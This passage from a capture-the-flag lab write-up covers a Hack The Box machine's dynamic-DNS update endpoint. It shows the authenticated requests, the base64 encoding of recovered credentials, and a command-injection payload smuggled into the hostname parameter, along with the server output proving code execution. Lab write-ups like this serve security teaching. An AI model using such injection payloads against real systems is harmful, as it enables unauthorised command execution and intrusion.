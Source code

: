 ## Exploit
### noip Authentication
We will now visit the ```/nic/update``` endpoints, and we notice that we are returned with a ```badauth```. After some research, we found from [here](https://www.noip.com/integrate/request)
that this endpoints takes in a request of the following format:
```
GET /nic/update?hostname=mytest.example.com&myip=192.0.2.25 HTTP/1.1
Host: dynupdate.no-ip.com
Authorization: Basic base64-encoded-auth-string
```

Next, what we have to do is to find the base64-encoded-auth string. From earlier, we are able to know that the username is ```dynadns``` and the password is ```sndanyd```. Hence, we 
can know that the auth-string will be ```dynadns:sndanyd```. Now we we base64 encode the authentication string.
```
┌──(kali㉿kali)-[~]
└─$ echo -n "dynadns:sndanyd" | base64
ZHluYWRuczpzbmRhbnlk
```
Editing the request for ```/nic/update```, we get a wrong domain error ```911 [wrngdom: htb]```. The request that we are using is as follows:

```
GET /nic/update?hostname=dyna.htb HTTP/1.1
Host: dyna.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic ZHluYWRuczpzbmRhbnlk
Connection: close
Upgrade-Insecure-Requests: 1
```

After a while, we realized changing the parameter for hostname in the url path to ```dynamicdns.no-ip.htb``` allows us to receive a response as follows:

```
HTTP/1.1 200 OK
Date: Sat, 21 Aug 2021 02:47:35 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 18
Connection: close
Content-Type: text/html; charset=UTF-8

good <Redacted IP address>
```
### Command injection
We also realized that changing the hostname to ```;'dynamicdns.no-ip.htb``` will return an error code ```911 [nsupdate failed]```. This is an indication that this endpoint is vulnerable to command injection. We will first create a POC to execute ```id``` and ```whoami``` command. We will modify the payload by first encoding the payload ```" | id&&whoami```. The URL encoded payload for hostname will be ```%22%20%7c%20id%26%26whoami;dynamicdns.no-ip.htb```. In the response, we are able to receive the output to the 2 commands, which showed that the POC is successful.
```
HTTP/1.1 200 OK
Date: Sat, 21 Aug 2021 04:16:35 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 81
Connection: close
Content-Type: text/html; charset=UTF-8

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
